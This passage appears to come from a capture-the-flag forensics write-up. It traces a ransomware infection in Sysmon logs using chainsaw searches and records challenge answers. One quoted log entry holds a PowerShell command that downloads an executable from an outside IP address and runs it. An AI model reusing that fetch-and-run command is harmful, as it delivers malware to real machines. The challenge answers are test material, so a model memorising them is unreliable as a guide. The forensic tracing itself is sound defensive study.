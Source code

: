 ```
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:24.802
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-V0F35DT
    Correlation: null
    EventID: 1
    EventRecordID: 3844
    Execution_attributes:
      ProcessID: 2260
      ThreadID: 552
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-09-20T03:03:24.808584Z
    Version: 5
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event
```

The above events describe a powershell script starting `mscalc.exe`, which is exactly what we're looking for.

```
What are the parent process name and ID of the ransomware process? (for example: svchost.exe_4953)
> powershell.exe_3856

Following the PPID, provide the file path of the initial stage in the infection chain. (for example: D:\Data\KCorp\FirstStage.pdf)
>
```


If we follow the events backwards through their parents, we should be able to find what originally started running powershell.

```
.\chainsaw search -t "Event.EventData.ProcessId: =3856" .\forensics_valhalloween
```

The first event with this ID is:

```
Event:
  EventData:
    CommandLine: powershell.exe  (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe');start-process 'C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Windows PowerShell
    FileVersion: 10.0.19041.3393 (WinBuild.160101.0800)
    Hashes: MD5=DFD66604CA0898E8E26DF7B1635B6326
    Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: PowerShell.EXE
```